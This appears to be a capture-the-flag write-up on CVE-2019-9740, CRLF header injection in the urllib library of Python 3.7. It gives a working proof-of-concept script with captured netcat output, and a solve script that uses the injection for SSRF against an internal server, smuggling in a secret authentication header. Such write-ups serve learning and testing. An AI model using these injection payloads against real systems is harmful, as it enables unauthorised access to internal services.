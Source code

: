 ## Visitor

# CVE-2019-9740
#### Author : Tinius


### POC CVE-2019-9740

```python
import sys
import urllib
import urllib.error
import urllib.request

host = "192.168.10.177:1234?a=1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123"
url = "http://" + host + ":1234/test/?test=a"

try:
    info = urllib.request.urlopen(url).info()
    print(info)
except urllib.error.URLError as e:
    print(e)
```

### Output:
```text

> nc -l -p 1234

GET /?a=1 HTTP/1.1
X-injected: header
TEST: 123:1234/test/?test=a HTTP/1.1
Accept-Encoding: identity
Host: 192.168.10.177:1234
User-Agent: Python-urllib/3.7
Connection: close
```

### Step 1 Starting

When visiting the website you are promted with an input field that asks for a url.
It fetches the data from the url and displays it on the website in text format, not rendering it.

### Step 2 Inspection
If you look at the python version in Dockerfile it is 3.7.3 if you google that with urllib injection you find the CVE.

Inspection the files in the backend you can see that we require a header to "autenticate".
### Step 3 Solve

```python
import requests

host = "internal_server:8090/flag HTTP/1.1\r\nsecret: SuPerSecRetPasSwOrd\r\n"
url = "http://" + host + ":8090/flag/?test=a"

print(url)

r = requests.post('http://localhost:8000', data={'url': url})

print(r.text)
```

Output:
```html
...
<pre>FLAG{test_flag}</pre>
...
```


### TIPS
Using a browser will format your input further so a script is recommended.

With browser injection will become:
```
"http://internal_server:8090/flag+HTTP/1.1\\r\\nsecret:+SuPerSecRetPasSwOrd\\r\\n:8090/flag/?test=a"
```

Correct:

```
http://internal_server:8090/flag HTTP/1.1\r\nsecret: SuPerSecRetPasSwOrd\r\n:8090/flag/?test=a
```